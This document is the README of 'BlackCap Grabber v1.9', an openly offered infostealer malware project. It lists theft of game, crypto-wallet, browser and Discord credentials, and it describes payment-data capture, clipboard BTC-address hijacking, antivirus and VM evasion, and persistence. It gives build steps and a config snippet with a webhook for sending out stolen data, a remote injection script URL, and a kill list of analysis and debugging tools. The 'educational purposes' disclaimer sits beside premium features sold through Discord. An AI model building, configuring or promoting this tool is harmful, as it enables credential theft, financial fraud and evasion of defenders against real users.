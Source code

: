 # BlackCap Grabber v1.9

![](https://raw.githubusercontent.com/KSCHdsc/BlackCap-Assets/main/Banner.png)

##### [:gem: Premium](https://discord.gg/blackcap) - [💡 Features](https://github.com/BlackCap-Grabber/Arizona#features) 


<h1 align="center">
  BlackCap Grabber 🔰
</h1>


<h2 align="center">
  BlackCap Grabber was made with

Love ❌ code ✅

</h2>

**NOTE:** \
BlackCap was made for educational purposes, therefor all consequences caused by your actions are **your** responsibility and accountability.

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://discord.gg/blackcap)
- [🎉・Setting up BlackCap](#setup)
- [⚙・Config](#config)
- [📝・Changelog](#changelog)

## <a id="features"></a>🔰 〢 Features

# 💎 = Premium Features Join the discord to buy

```diff
> Default:

- Steal Steam / Minecraft / Metamask / Exodus / Roblox / NationGlory login
- Steal Chrome Passwords / Cookies / History
- Inject Discord / Discord Canary / Lightcord / Ripcord / Xcord
- Debug Killer (Kill task gestionary)
- Bypass TokenProtector / BetterDiscord
- Take a Screenshot
- Grabb System Informations
- Bypass Virus Total machines
- Bypass VM machines
- Hide Itself in Background
- Replace the BTC address copying by your (💎)
- Custom Installer / Setuper (💎)
- Icon / Name / Description Customizable (💎)
- Cookies Exploiter Tech (💎)
- Steal all Chromium Passwords and Cookies for OperaGX/Opera/GoogleChrome/Brave/Chromium/Torch/Edge/Mozilla and others (💎)
- 0/64 Detect Virus Total (.exe) (💎)
- Grabb Sensitive Files exodus login / a2f backup codes / tokens / passwords... (can be customizable) (💎)



> Injection:

- Nitro Auto Buy
- First Start Reporter
- New Passwords
- New Emails
- New Login
- New Credit Card
- New PayPal
- Anti Delete system (re install after Discord uninstall / Discord Update)
> + More!
```



## <a id="setup"></a> 📁 〢 Setting up BlackCap

1. Install [Python](https://www.python.org/downloads/)
2. Edit the Configuration [index.py](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/index.py#L52)
3. Double Click on [build.bat](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/build.bat) to build
4. You have your .exe file enjoy :)




## <a id="config"></a>⚙ 〢 Config

If you want to change the config (add your webhook), open up [index.py](https://github.com/KSCHdsc/BlackCap-Grabber/blob/main/index.py#L52) and locate it at the top. There you can configure the following:


```py 
{
    
__config__ = {
    'yourwebhookurl': "place your webhook here",#your discord webhook url 
    'blackcap_inject_url': "https://raw.githubusercontent.com/KSCHdsc/BlackCap-Inject/main/index.js",#my javascript injection (i recommand to not change)
    'hide': 'no',
    'kill_discord_process': True,#you want to hide grabber? ('yes' or 'no')
    'dbugkiller': True,#recommand to don't touch
    'blprggg':#don't touch this
    [
        "httpdebuggerui", 
        "wireshark", 
        "fiddler", 
        "regedit", 
        "cmd", 
        "taskmgr",
        "vboxservice", 
        "df5serv", 
        "processhacker", 
        "vboxtray", 
        "vmtoolsd", 
        "vmwaretray",
        "ida64", 
        "ollydbg", 
        "pestudio", 
        "vmwareuser", 
        "vgauthservice", 
        "vmacthlp",
        "x96dbg", 
        "vmsrvc", 
        "x32dbg", 
        "vmusrvc", 
        "prl_cc", 
        "prl_tools", 
        "xenservice",
        "qemu-ga", 
        "joeboxcontrol", 
        "ksdumperclient", 
        "ksdumper", 
        "joeboxserver"
    ]

}
}
```

---


## <a id="changelog"></a>💭 〢 ChangeLog

```diff
v1.9 ⋮ 2022-26-10
+ bug fix to search token
+ error message fixed
+ build with pyinstaller fixed

```

<a href=#top>Back to Top</a></p>

### Authors
- [KSCHdsc](https://github.com/KSCHdsc)
- [002Sans](https://github.com/002-sans)

### Contributors (CapingTeam)
- Xenis
- Nono1337
- Irax212
- Shamroks

# Terms
- [x] Educational purpose only
- [x] Reselling is forbidden
- [ ] You can use the source code if you keep credits (in embed + in markdown), it has to be open-source
- [x] We are NOT responsible of anything you do with our software (if its illegal)

